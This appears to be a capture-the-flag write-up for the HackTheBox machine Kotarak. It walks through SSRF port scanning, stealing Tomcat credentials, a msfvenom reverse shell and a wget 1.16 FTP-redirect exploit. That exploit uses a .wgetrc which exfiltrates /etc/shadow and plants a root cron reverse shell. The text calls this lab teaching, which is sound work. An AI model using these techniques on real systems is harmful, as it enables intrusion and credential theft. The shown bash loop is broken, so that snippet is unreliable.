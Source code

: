 # Kotarak

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

Doing a detailed Nmap scan reveals a bit more about the services running on the machine.

<figure><img src="../../../.gitbook/assets/image (115) (1).png" alt=""><figcaption></figcaption></figure>

Port 8080 was running a Tomcat instance, and this might be the method used for a reverse shell via a malicious .war file. Port 60000 was also running some form of custom application.&#x20;

Credentials were required for port 8080:

<figure><img src="../../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

### Private Browser

This port was hosting a private browser that takes a URL as a parameter.

<figure><img src="../../../.gitbook/assets/image (80) (1).png" alt=""><figcaption></figcaption></figure>

We can use this to get hits on our own HTTP server, but it does not seem to download files or anything. As such, there isn't much point on trying to host something on our machine. Instead, we can do SSRF and let this application **send requests to itself**. This would allow us to enumerate all ports that were open within the machine but not reachable from my Kali machine.

Using `curl` and a quick bash script, we can enumerate the ports that are open:

```bash
for i in {0..65535}; do
    cmd = $(curl -s http://10.10.10.55:60000/url.php?path=http://127.0.0.1:"${i}");
    echo -n "${i}: "; echo "$res"
    fi;
```

Eventually, we would start getting hits on the ports that are open.

### File Manager + Shell

Using this bash loop, we can find that there's a Simple File Viewer application open on port 888, that was unaccessible to us earlier.

<figure><img src="../../../.gitbook/assets/image (116) (1).png" alt=""><figcaption></figcaption></figure>

When viewing this page, we can see a few folders, but the most interesting would be the `backup` folder.

<figure><img src="../../../.gitbook/assets/image (118) (1).png" alt=""><figcaption></figcaption></figure>

Clicking on the links does not work at all as we don't actually have access to this service from our machine. However, we can attempt to read the files using SSRF through the private browser.

The links were structured like this:

```markup
<a href="?doc=on"  class="tableElement">
```

We can see that the `?doc` parameter was being used to access these links. We can then read the files by accessing `http://10.10.10.15:60000/url.php?path=127.0.0.1:888?doc=backup`.

This reveals to us a folder with the Tomcat credentials.

<figure><img src="../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

With this, we can acess port 8080 and login. Then, using `msfvenom`, we can generate a quick reverse shell to upload to gain a reverse shell easily.

<figure><img src="../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

We would be the `tomcat` user on the machine.

## Privilege Escalation

### Windows Memory Dump

When viewing the `/home` directory, we can find another user present.

<figure><img src="../../../.gitbook/assets/image (89) (1).png" alt=""><figcaption></figcaption></figure>

The `tomcat` user also had some interesting files within their directory.

<figure><img src="../../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

The name of the file was a giveaway that this contained NTLM hashes from a memory dump of a Windows machine. As such, we can transfer this back to our machine and dump the credentials using `secretsdump.py`.

<figure><img src="../../../.gitbook/assets/image (110) (1).png" alt=""><figcaption></figcaption></figure>

Then we can crack the Administrator's hash to get `f16tomcat!`. Afterwards, we can `su` to the `atanas` user with these credentials.

<figure><img src="../../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

### wget RCE

Interestingly, the `atanas` user can access the root directory and find a hint as to where the root flag is.

<figure><img src="../../../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>

Reading the `app.log` file reveals some interesting stuff.

<figure><img src="../../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

First thing to note was that there was another IP address at 10.0.3.133. Next, this was using `wget` 1.16, which was a vulnerable version of the binary. Lastly, take a look at the timestamps. Notice how they occur exactly after every 2 minutes? Perhaps this was a cronjob running in the background that we needed to exploit.&#x20;

There were scripts for the exploit available on Github:

{% embed url="https://github.com/xl7dev/Exploit/blob/master/Wget/wget-exploit.py" %}

How this script works is through exploiting the method of which `wget` interacts with an FTP server to download files. When `wget` sends a request to a website like `http://test.com/file.txt`, and the server responds with a **redirect** to `ftp://anothertest.com/anotherfile.txt`, `wget` will go get `anotherfile.txt` and save it as `anotherfile.txt`. This exploit can be used to tamper with the cronjobs that are running on the server, and we can use this to gain a reverse shell as the root user.

First, we would need to create a `.wgetrc` file:

```
post_file = /etc/shadow
output_document = /etc/cron.d/malicious-cron
```

Then, we can replace the command used in the script to a cronjob reverse shell by root.

<figure><img src="../../../.gitbook/assets/image (105) (1).png" alt=""><figcaption></figcaption></figure>

Then, we would need to set up a FTP server on our machine with these files using `python3`.

<figure><img src="../../../.gitbook/assets/image (99) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can attempt to test run the exploit and see that it returns a `socket.error`.

<figure><img src="../../../.gitbook/assets/image (103) (1).png" alt=""><figcaption></figcaption></figure>

Permission denied was an interesting error to get, as the script doesn't do anything out of the ordinary. Perhaps I was being blocked as I needed to access port 21, which typically requires superuser permissions.

We can use `authbind` to bypass this.

<figure><img src="../../../.gitbook/assets/image (96) (3).png" alt=""><figcaption></figcaption></figure>

Afterwards, the exploit should work by first extracting the `/etc/shadow` file (as specified in the `.wgetrc` file we made earlier, although this can be any file).

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

Afterwards, we would get a reverse shell on a listener port.

<figure><img src="../../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>
